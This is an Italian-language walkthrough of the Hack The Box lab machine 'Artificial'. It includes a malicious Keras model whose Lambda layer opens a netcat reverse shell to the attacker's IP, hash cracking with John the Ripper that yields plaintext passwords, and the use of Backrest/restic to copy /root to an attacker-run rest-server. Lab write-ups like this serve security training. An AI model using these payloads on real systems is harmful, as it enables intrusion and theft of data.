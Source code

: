# Macchina artificial

IP vittima: 10.10.11.74 
IP attacante: 10.10.14.6

## Recon

`sudo nmap -p- --open -vvv -n -Pn 10.10.11.74 -oG porte`
`nmap -sC -sV -p22,80 10.10.11.74 -oN servizi`

```bash
# Nmap 7.94SVN scan initiated Wed Oct 22 18:37:34 2025 as: nmap -sC -sV -p22,80 -oN servizi 10.10.11.74
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 22 18:37:42 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
```

Porte: 22,80

## Porta 80

Probabilmente non si riesce a visitare la porta http 80 sul browser quindi aggiornare `/etc/hosts con: <IP MACCHINA> artificial.htb`
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-14-56-image.png)

Creare un account e loggarsi, poi scaricare il Dockerfile

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-15-41-image.png)

Sfrutteremo questo exploit: https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Inserendo il nostro IP e la nostra porta di ascolto

Creare il Docker con il docker file scaricato dal sito:

```bash
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Quando si avvia il container docker creato saremo in una shell bash:

- creare un file .py che contiene l'exploit (mettere il nostro ip e la porta)
- eseguire il file .py creato con python
- lo script lanciato creerà un file `exploit.h5`
- copiare il file exploit.h5 creato fuori dal docker ( `docker cp $(docker ps -l -q):/code/exploit.h5 ./` )

Ora dal sito uploadare il file `exploit.h5`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-17-52-image.png)mettersi in ascolto sulla porta 4444 ( `nc -nlvp 4444` ) e cliccare su `View Predictions` sul sito

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-18-49-image.png)Siamo dentro con l'utente `app`
Vediamo che nella cartella /home ci sono due cartelle: app e gael che probabilmente è un utente che troviamo anche in /etc/passwd
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-19-45-image.png)

## User gael

Con [[linpeas]]troviamo il file `/home/app/app/instance/users.db`
che possiamo esaminare:

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-20-17-image.png)Questa chiave `c99175974b6e192936d97224638a34f8` è un hash MD5 che potrebbe essere la password dell'user gael

Creiamo un file `hash.txt` che contiene la hash di gael e proviamo a craccarla con [[johntheripper]]
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-20-48-image.png)Troviamo la password: `mattp005numbertwo`

Con la password trovata possiamo entrare nell'utente gael con ssh `ssh gael@10.10.11.74`
Nella cartella `/home/gael` troviamo il file `user.txt` con la user flag

## Root

Con [[linpeas]]si trova il file `backrest_backup.tar.gz` nella cartella `/var/backups`
Scarichiamolo sul nostro pc e apriamolo ( `tar -xvf backrest_backup.tar.gz` )
Nella cartella `backrest/.config/backrest` troviamo il file `config.json`:

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-21-39-image.png)Questa è una **password cifrata con bcrypt** Analizziamo i dettagli:

### Struttura del dato:

- **Identificatore**: `"backrest_root"`

- **Algoritmo**: `bcrypt` (indicato dal campo `passwordBcrypt`)

- **Formato**: Stringa codificata in Base64
  
  ### Cosa contiene esattamente:
  
  La stringa `"JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"` è un hash bcrypt che include:
1. **Versione algoritmo** (`$2a$`)

2. **Costo computazionale** (work factor)

3. **Salt** (valore casuale)

4. **Hash della password** vero e proprio
   
   ### Contesto probabile:

`"backrest_root"` suggerisce che potrebbe essere una password per il tool di backup `backrest` che è una soluzione di backup accessibile via web basata su restic che utilizza la porta 9898 di localhost
Possiamo sfruttare questo exploit di restic: https://gtfobins.github.io/gtfobins/restic/ ma dovremo installare restic ( `apt install restic` ) e rest-server scaricandolo da qui https://github.com/restic/rest-server

Cracchiamola con [[johntheripper]]
`john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
Troviamo la password: `?:!@#$%^`

Nella macchina vittima lanciamo il comando `ss -tuln` 
Comando `ss`:

### Significato delle opzioni:

- **`-t`** (TCP) - Mostra le connessioni TCP  

- **`-u`** (UDP) - Mostra le connessioni UDP  

- **`-l`** (listening) - Mostra solo socket in ascolto

- **`-n`** (numeric) - Mostra numeri invece di risolvere nomi (più veloce)
  
  ### Cosa visualizza:
  
  Elenca **tutti i servizi in ascolto** sulla macchina con:

- **Protocollo** (TCP/UDP)    

- **Porta** in uso    

- **Indirizzo IP** di ascolto   

- **Stato** della connessione

Vediamo che la porta 9898 è utilizzata:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-22-29-image.png)

Sulla nostra macchina, con Il comando `ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898` creiamo un **tunnel SSH con port forwarding locale**. 

### Cosa succede esattamente:

1. **Sulla tua macchina locale**:    
   - SSH apre un socket in ascolto sulla **porta 9898**       
2. **Quando ti connetti alla tua porta 9898**:  
   - Il traffico viene **incapsulato** nella connessione SSH      
   - Viaggia cifrato fino al server `10.10.11.74`      
3. **Sul server remoto**:
   - SSH inoltra il traffico a `127.0.0.1:9898`     
   - (cioè a un servizio in esecuzione sul server stesso)

Con `localhost:9898` nel nostro browser entriamo nel servizio backrest sulla macchina vittima
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-23-10-image.png)

Accediamo con Username: `backrest_root` e Password: `!@#$%^`
Dopo aver fatto l'accesso dovremo creare una nuova repo (+ Add Repo)

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-23-38-image.png)mettendo un nome (repox), URI /opt e una password (123456)
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-24-15-image.png)

Mettiamoci in ascolto sulla nostra macchina con 
`./rest-server --path /tmp/restic-data --listen :12345 --no-auth`

Poi sul sito selezioniamo la repo creata e clicchiamo su Run Command

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-24-48-image.png)Poi inseriamo i seguenti comandi:
`-r rest:http://<NOSTRO IP>:12345/repox init`
`-r rest:http://<NOSTRO IP>:12345/repox backup /root`

Sulla nostra macchina inseriamo i comandi:
`restic -r /tmp/restic-data/repox snapshots`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-25-24-image.png)`restic -r /tmp/restic-data/repox restore f8118067 --target ./restore`   (f8118067 è l'ID della repo)

Poi con il comando `cat restore/root/root.txt` otteniamo la flag root
